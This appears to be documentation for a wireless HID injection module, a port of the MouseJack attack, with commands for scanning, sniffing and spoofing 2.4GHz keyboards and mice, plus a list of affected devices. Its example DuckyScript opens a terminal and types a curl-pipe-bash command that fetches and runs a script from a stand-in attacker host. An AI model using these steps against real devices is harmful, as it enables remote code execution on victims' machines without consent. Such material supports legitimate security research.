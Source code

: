 ```yaml
---
title: "HID on 2.4Ghz"
date: 2019-02-25T11:10:28+01:00
draft: false
weight: 4
---
```


This module, which is a port of [Bastille's mousejack attack](https://www.mousejack.com/), performs scanning and frames injection for HID devices on the 2.4Ghz spectrum, using Nordic Semiconductor nRF24LU1+ based USB dongles and Bastille's [RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware).

The module will work with one of the devices supported by RFStorm:

* CrazyRadio PA USB dongle
* SparkFun nRF24LU1+ breakout board
* Logitech Unifying dongle (model C-U0007, Nordic Semiconductor based)

{{% notice warning %}}
In order for this module to work, you need to make sure you installed the [Bastille’s RFStorm firmware](https://github.com/BastilleResearch/nrf-research-firmware) on one of the supported devices.
{{% /notice %}}

Once flashed with the proper firmware and connected to your computer, `dmesg` should report the device as:

```sh
usb 3-1.3: new full-speed USB device number 8 using xhci_hcd
usb 3-1.3: New USB device found, idVendor=1915, idProduct=0102
usb 3-1.3: New USB device strings: Mfr=1, Product=2, SerialNumber=0
usb 3-1.3: Product: Research Firmware
usb 3-1.3: Manufacturer: RFStorm
```

The attack is known to support detection and [DuckyScript](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript) injection for the following devices:

* Microsoft Wireless Keyboard 800
* Microsoft Wireless Mouse 1000
* Microsoft Wireless Mobile Mouse 3500
* Microsoft All-In-One Media Keyboard
* Microsoft Sculpt Ergonomic Mouse
* Logitech Wireless Touch Keyboard K400r
* Logitech Marathon M705 Mouse
* Logitech Wave M510 Mouse
* Logitech Wireless Gaming Mouse G700s
* Logitech Wireless M325 Mouse
* Logitech K750 Wireless Keyboard
* Logitech K320 Wireless Keyboard
* Dell KM636 Wireless Mouse and Keyboard
* AmazonBasics MG-0975 Wireless Mouse

### Commands

#### `hid.recon on`

Start scanning for HID devices on the 2.4Ghz spectrum.

#### `hid.recon off`

Stop scanning for HID devices on the 2.4Ghz spectrum.
#### `hid.show`

Show a list of detected HID devices on the 2.4Ghz spectrum.
#### `hid.sniff ADDRESS`

Start sniffing a specific ADDRESS in order to collect payloads, use 'clear' to stop collecting.
#### `hid.inject ADDRESS LAYOUT FILENAME`

Parse the DuckyScript `FILENAME` and inject it as HID frames spoofing the device `ADDRESS`, using the `LAYOUT` keyboard mapping (available layouts: `BE BR CA CH DE DK ES FI FR GB HR IT NO PT RU SI SV TR US`).

### Parameters

| parameter | default | description |
|-----------|---------|-------------|
| `hid.lna` | `true` | If true, enable the LNA power amplifier for CrazyRadio devices. |
| `hid.hop.period` | `100` | Time in milliseconds to stay on each channel before hopping to the next one. |
| `hid.ping.period` | `100` | Time in milliseconds to attempt to ping a device on a given channel while in sniffer mode. |
| `hid.sniff.period` | `500` | Time in milliseconds to automatically sniff payloads from a device, once it's detected, in order to determine its type. |
| `hid.force.type` | `logitech` | If the device is not visible (if you want to talk directly to a dongle without connected devices) or its type has not being detected, force the device type to this value. Accepted values: `logitech`, `amazon`, `microsoft`. |
| `hid.show.filter` | | Defines a regular expression filter for `hid.show`. |
| `hid.show.sort` | `mac desc` | Defines sorting field (mac, seen) and direction (asc or desc) for `hid.show`. |
| `hid.show.limit` | `0` | Defines limit for `hid.show`. | 

### Examples

Enable HID discovery, use the `ticker` module to display detected devices, wait for the device `32:26:9f:a4:08` to be detected and inject the `ducky.txt` script as HID frames using the US keyboard layout:

```sh
> set ticker.commands clear; hid.show; events.show 10
> hid.recon on
> ticker on
# ... wait for the device to be detected, using `hid.show` ...
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Send the `ducky.txt` script keystrokes to the dongle with address `32:26:9f:a4:08` forcing its type to `logitech` and without waiting for any connected device to be visible:

```sh
> set hid.force.type logitech
> hid.recon on
> hid.inject 32:26:9f:a4:08 US ducky.txt
```

Example `ducky.txt` (for a complete list of available commands [see the documentation](https://github.com/hak5darren/USB-Rubber-Ducky/wiki/Duckyscript)):

	GUI SPACE
	DELAY 200
	STRING Terminal
	ENTER
	DELAY 500
	STRING curl -L http://www.evilsite.com/commands.sh | bash
	ENTER

